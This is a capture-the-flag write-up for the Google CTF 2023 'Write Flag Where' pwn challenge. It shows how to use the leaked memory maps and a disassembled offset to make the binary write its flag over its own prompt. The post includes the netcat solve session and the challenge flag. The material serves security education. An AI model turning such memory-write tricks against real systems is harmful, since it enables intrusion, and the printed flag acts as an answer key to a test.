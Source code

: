 ```yaml
---
title: "Google CTF: Write Flag Where"
author: "Matthew Shen"
date: "2023-06-26"
slug: gctf-2023-pwn-write-flag-where
tags:
  - CTF Writeup
---
```


## Introduction

Write Flag Where was a pwn binary exploitation in the 2023 Google Capture the Flag event. In total 294 teams solved this challenge and the final score for this challenge was 50 points.

> This challenge is not a classical pwn  
> In order to solve it will take skills of your own  
> An excellent primitive you get for free  
> Choose an address and I will write what I see  
> But the author is cursed or perhaps it's just out of spite  
> For the flag that you seek is the thing you will write  
> ASLR isn't the challenge so I'll tell you what  
> I'll give you my mappings so that you'll have a shot.

In addition to the challenge prompt, the challenge binary was provided as an [attachment](https://storage.googleapis.com/gctf-2023-attachments-project/1c642ea2575b569441ed311ba1d614fb66ef4c571299b914e30ad2155b13e1075868ad442a04c2c256a4f3379702115820e69d1bce2368aaaef0b2fd30483b39.zip) and the remote IP and port were provided: `wfw1.2023.ctfcompetition.com 1337`.

## Connecting to the challenge

Using netcat, we can connect to the challenge server.

```sh
┌──(mshen㉿kali)-[~/gctf-2023/wfw1]
└─$ nc wfw1.2023.ctfcompetition.com 1337
```

In this challenge, we are also given `/proc/self/maps` which means that ASLR protections are bypassed and we know the memory address locations of the running process.

```
558fad12e000-558fad12f000 r--p 00000000 00:11e 810424                    /home/user/chal
558fad12f000-558fad130000 r-xp 00001000 00:11e 810424                    /home/user/chal
558fad130000-558fad131000 r--p 00002000 00:11e 810424                    /home/user/chal
558fad131000-558fad132000 r--p 00002000 00:11e 810424                    /home/user/chal
558fad132000-558fad133000 rw-p 00003000 00:11e 810424                    /home/user/chal
558fad133000-558fad134000 rw-p 00000000 00:00 0
7fe6513dd000-7fe6513e0000 rw-p 00000000 00:00 0
7fe6513e0000-7fe651408000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fe651408000-7fe65159d000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fe65159d000-7fe6515f5000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fe6515f5000-7fe6515f9000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fe6515f9000-7fe6515fb000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7fe6515fb000-7fe651608000 rw-p 00000000 00:00 0
7fe65160a000-7fe65160c000 rw-p 00000000 00:00 0
7fe65160c000-7fe65160e000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fe65160e000-7fe651638000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fe651638000-7fe651643000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fe651644000-7fe651646000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fe651646000-7fe651648000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffe686cc000-7ffe686ed000 rw-p 00000000 00:00 0                          [stack]
7ffe6877c000-7ffe68780000 r--p 00000000 00:00 0                          [vvar]
7ffe68780000-7ffe68782000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

The challenge then prints the following message in a `while(true)` loop asking for an address and length:

```
Give me an address and a length just so:
<address> <length>
And I'll write it wherever you want it to go.
If an exit is all that you desire
Send me nothing and I will happily expire
```

## Solution

I used Ghidra to decompile and analyze the provided binary. As I read the code, I also annotated it by renaming the variables using names that made sense and helped me better understand the code.

![Ghidra decompilation of main](./gctf-wfw1-ghidra.png)

So from reading the decompiled code, we find that memory of the process is opened and we seek to the specified address and write the specified number of bytes of the flag into memory at that address. So how can we abuse this behaviour to leak the flag? In other words, at what location should we write the flag into the memory so that we can retrieve the flag?

An idea, we can overwrite the "Give me an address and a length" prompt with the flag string. All we need to do is find the address of that prompt so that we can write the flag into the location. We can either use a hex editor or the disassembled assembly code to determine the string prompt's memory location. Using GDB to disassemble the binary, we look for the part when the arguments for the call to `dprintf()` are being prepared which in a hex editor we can simply search for the string.

```
(gdb) disassemble main
Dump of assembler code for function main:
[...]
   0x0000000000001357 <+366>:	lea    rdx,[rip+0xe82]        # 0x21e0
   0x000000000000135e <+373>:	mov    rsi,rdx
   0x0000000000001361 <+376>:	mov    edi,eax
   0x0000000000001363 <+378>:	mov    eax,0x0
   0x0000000000001368 <+383>:	call   0x1090 <dprintf@plt>
[...]
```

Either way, we have determined that the offset for the prompt string is at `0x21e0`. Now all we need to do is add this offset to the binary base. Normally, this is where ASLR would kick in to prevent us from targeting specific memory locations but since in this case the memory maps are provided, the calculations are trivial.

```py
>>> hex(0x558fad12e000 + 0x21e0)
'0x558fad1301e0'
```

### Getting the Flag

With this, getting the flag is trivial. Simply send the calculated address and 127, the maximum allowable length, to leak the flag.

Flag: `CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}`

## Appendix: Complete Solve
```
┌──(mshen㉿kali)-[~/gctf-2023/wfw1]
└─$ nc wfw1.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
This challenge is not a classical pwn
In order to solve it will take skills of your own
An excellent primitive you get for free
Choose an address and I will write what I see
But the author is cursed or perhaps it's just out of spite
For the flag that you seek is the thing you will write
ASLR isn't the challenge so I'll tell you what
I'll give you my mappings so that you'll have a shot.
556a2e45a000-556a2e45b000 r--p 00000000 00:11e 810424                    /home/user/chal
556a2e45b000-556a2e45c000 r-xp 00001000 00:11e 810424                    /home/user/chal
556a2e45c000-556a2e45d000 r--p 00002000 00:11e 810424                    /home/user/chal
556a2e45d000-556a2e45e000 r--p 00002000 00:11e 810424                    /home/user/chal
556a2e45e000-556a2e45f000 rw-p 00003000 00:11e 810424                    /home/user/chal
556a2e45f000-556a2e460000 rw-p 00000000 00:00 0
7f1c1a2cd000-7f1c1a2d0000 rw-p 00000000 00:00 0
7f1c1a2d0000-7f1c1a2f8000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f1c1a2f8000-7f1c1a48d000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f1c1a48d000-7f1c1a4e5000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f1c1a4e5000-7f1c1a4e9000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f1c1a4e9000-7f1c1a4eb000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
7f1c1a4eb000-7f1c1a4f8000 rw-p 00000000 00:00 0
7f1c1a4fa000-7f1c1a4fc000 rw-p 00000000 00:00 0
7f1c1a4fc000-7f1c1a4fe000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f1c1a4fe000-7f1c1a528000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f1c1a528000-7f1c1a533000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f1c1a534000-7f1c1a536000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f1c1a536000-7f1c1a538000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fffd4a21000-7fffd4a42000 rw-p 00000000 00:00 0                          [stack]
7fffd4bab000-7fffd4baf000 r--p 00000000 00:00 0                          [vvar]
7fffd4baf000-7fffd4bb1000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]


Give me an address and a length just so:
<address> <length>
And I'll write it wherever you want it to go.
If an exit is all that you desire
Send me nothing and I will happily expire
0x556a2e45c1e0 127
CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}
```

